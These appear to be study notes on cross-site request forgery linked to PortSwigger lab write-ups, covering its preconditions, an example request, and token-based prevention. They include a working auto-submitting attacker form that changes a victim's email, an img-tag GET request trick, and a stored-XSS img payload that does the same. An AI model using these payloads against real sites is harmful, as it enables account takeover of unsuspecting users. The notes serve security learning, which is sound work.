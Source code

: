 # What is CSRF ? 
It's a web security vulnerability that allows attacker to make users perform actions unintentionally.

# 3 Must Have for CSRF
1. **A proper action that is special to user** (email change, password change, username change ...)
2. **Cookie based session management.** (CSRF exists because browser put cookies automatically, if we don't have any cookie, then we can't talk about CSRF)
3. **No unpredictable tokens or parameters** (This is why CSRF Token is being used to prevent CSRF, if there is a parameter that you can't predict to make the functionality work, then you can't craft a malicious website that'd perform CSRF)

### Same Origin Policy
![[Pasted image 20220711093654.png]]

In order to have a better understanding of CSRF, let's give an example:

This is the user's request in order to change email.
```HTTP
POST /email/change HTTP/1.1 
Host: vulnerable-website.com 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 30 
Cookie: session=yvthwsztyeQkAPzeQ5gHgTvlyxHfsAfE 

email=wiener@normal-user.com
```

And this is the attacker's website:
```HTML
<html> 
	<body> 
		<form action="https://vulnerable-website.com/email/change" method="POST"> 
			<input type="hidden" name="email" value="pwned@evil-user.net" />
		</form> 
			<script> document.forms[0].submit(); </script> 
	</body> 
</html>
```

Whenever user visits attacker's webpage browser will make a POST request to email change endpoint with given parameter value. Since protocol, domain name and endpoint is valid, browser'll put Cookie value in request **(assuming SameSate is not used)**. And attacker will change email of victim. 

Btw, if you need to make a GET request, then you can use **img** tag. Note that code below, does make a GET request however it also redirects you to google.com. 
```html
<html>
    <body>
        <form action="https://www.google.com" method="get">
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

So if you just make a GET request in background, use following code:
```html
<html>
    <body>
        <img src="http://<source-you-wanna-make-get-request>" onerror="alert(`request have been made`)">

    </body>
</html>```

# Lab: CSRF vulnerability with no defenses
[Write-Up](https://medium.com/@booruledie/portswigger-labs-csrf-1-b3a484dd5372)

---
# XSS and CSRF
We can combine CSRF with XSS, so we don't need to redirect users to external sources. Let's say webpage is vulnerable to **Stored XSS**. Then attacker can place following XSS payload into vulnerable section and wait for users to visit that page.

```html
<img src="https://vulnerable-website.com/email/change?email=pwned@evil-user.net">
```

This XSS will change the victim's email as `pwned@evil-user.net`. 

However it's important to note that if we're talking about **reflected XSS** and if **CSRF Token** is being used properly. Then we can't do the same thing that we've done in stored XSS part since we can't predict CSRF Token.

# Preventing CSRF
The best way to prevent CSRF is using a CSRF Token. CSRF Token must be:
* **Unpredictable**
* **Tied with Session**
* **And validated before every user action**

# Lab: CSRF where token validation depends on request method
[Write-Up](https://medium.com/@booruledie/portswigger-labs-csrf-2-52d6b1433c3f)

---
# Lab: CSRF where token validation depends on token being present
[Write-Up](https://medium.com/@booruledie/portswigger-labs-csrf-3-798b1524c449)

---
# Lab: CSRF where token is not tied to user session
[Write-Up](https://medium.com/@booruledie/portswigger-labs-csrf-4-5e7cb526d791)

---
# Lab: CSRF where token is tied to non-session cookie
[Write-Up](https://medium.com/@booruledie/portswigger-labs-csrf-5-b3482e160a8b)

---
# Lab: CSRF where token is duplicated in cookie
[Write-Up](https://medium.com/@booruledie/portswigger-labs-csrf-6-794d867a5ff4)

---
# Lab: CSRF where Referer validation depends on header being present
[Write-Up](https://medium.com/@booruledie/portswigger-labs-csrf-7-a90f9ad29ecd)

---
# Lab: CSRF with broken Referer validation
[Write-Up](https://medium.com/@booruledie/portswigger-labs-csrf-8-4865a07b4c33)

